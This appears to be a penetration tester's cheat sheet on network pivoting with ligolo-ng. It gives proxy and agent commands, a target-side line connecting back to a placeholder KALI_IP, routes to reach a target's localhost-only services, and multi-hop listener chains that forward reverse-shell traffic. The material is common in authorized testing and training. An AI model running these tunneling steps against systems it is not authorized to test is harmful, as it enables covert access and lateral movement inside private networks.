 # ***Pivot***
## 1 Kali
```shell
# 1 (default listening port 11601)
sudo ./proxy -selfcert
interface_create --name "agent1"

# 2 WAIT FOR AGENT TO CONNECT THEN...


# 3 After Agent connects
session
<session_num>
tunnel_start --tun agent1
ifconfig
interface_add_route --name agent1 --route 192.168.%.0/24
```
***localhost access (If ports on target only accept localhost)***
```shell
interface_add_route --name agent1 --route 240.0.0.1/32
```

## 2 TARGET
```shell
./agent -connect KALI_IP:11601 -ignore-cert
```

# *Multiple Pivots*
***Kali -> Box 1 - Box 2 - Box 3 -> Box 4 ...***
*If **Box 2** will have an **agent** to access Box 3, than the **Box 1 agent** will need the following listeners, and so on and so forth for each subsequent boxes:*
1. _**HTTP listener** for interacting back to our Kali from Box 2_
2. _**Reverse shell listener** for Box 2 to bind to our listener for access_
3. _**Agent listener** for agent on Box 2 to reach back to our Kali_
```shell
# 1 FIRST in Kali
interface_create --name "agent2"

# 2 THEN for AGENT 1 in BOX 1
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:ANY_OPEN_PORT # http
listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:ANY_OPEN_PORT # reverse
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 # agent

# 3 RUN agent 2 from Box 2 then when agent connects:
session
<session_num agent 2>
tunnel_start --tun agent2
ifconfig
interface_add_route <Box_3_SUBNET>

# https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c
# https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9
```